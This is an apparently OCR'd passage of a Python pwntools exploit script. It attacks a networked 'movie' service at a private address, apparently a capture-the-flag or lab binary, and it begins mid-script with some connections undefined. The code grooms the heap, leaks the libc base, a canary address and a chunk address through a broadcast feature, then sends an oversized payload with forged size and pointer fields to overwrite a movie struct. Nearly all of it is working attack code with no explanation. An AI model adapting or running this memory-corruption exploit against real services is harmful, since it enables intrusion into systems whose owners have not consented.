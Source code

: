 ```python
r3 = remote('192.168.0.2', 8106)
r4 = remote('192.168.0.2', 8106)

r1.sendlineafter(b'name > ', b'AA')
r1.sendlineafter(b'> ', b'2')
r1.sendlineafter(b'title of movie > ', b'BBB')
r1.sendlineafter(b'category of movie > ', b'2')


r2.sendlineafter(b'name > ', b'AA')
r2.sendlineafter(b'> ', b'2')
r2.sendlineafter(b'title of movie > ', b'BBB')
r2.sendlineafter(b'category of movie > ', b'2')

r1.sendlineafter(b'size of movie > ', str(0x0).encode())

r3.sendlineafter(b'name > ', b'AA')
r3.sendlineafter(b'> ', b'2')
r3.sendlineafter(b'title of movie > ', b'BBBB')
r3.sendlineafter(b'category of movie > ', b'2')

r4.sendlineafter(b'name > ', b'AA')
r4.sendlineafter(b'> ', b'2')
r4.sendlineafter(b'title of movie > ', b'BBBB')
r4.sendlineafter(b'category of movie > ', b'2')

r3.sendlineafter(b'size of movie > ', str(0x0).encode())
#Broadcast and leak addrs
r = remote('192.168.0.2', 8106)
pause()
r.sendlineafter(b'name > ', b'AA')
r.sendlineafter(b'> ', b'3')
r.sendlineafter(b'index of movie > ', b'1')
r.sendlineafter(b'channel > ', b'0-1-1111')

data = server.recvn(0x88)


libc_base = u32(data[0x0c:0x10]) - 0x1b3000
canary_addr = u32(data[0x4c:0x50]) + 0x36c + 0x80
chunk_addr = u32(data[0x84:0x88]) + 0x08

print("***")
print(hex(libc_base))
print(hex(canary_addr))
print(hex(chunk_addr))

sleep(1)

r2.sendlineafter(b'size of movie > ', str(0x408).encode())
r2.send(b'C'*0x3FF + p32(0x400) + p32(chunk_addr))

r1.close()
r2.close()

pause()
r.sendlineafter(b'> ', b'3')
r.sendlineafter(b'index of movie > ', b'3')
r.sendlineafter(b'channel > ', b'0-1-1111')


# send title correctly to overwrite first movie struct
r.sendlineafter(b'> ', b'2')
```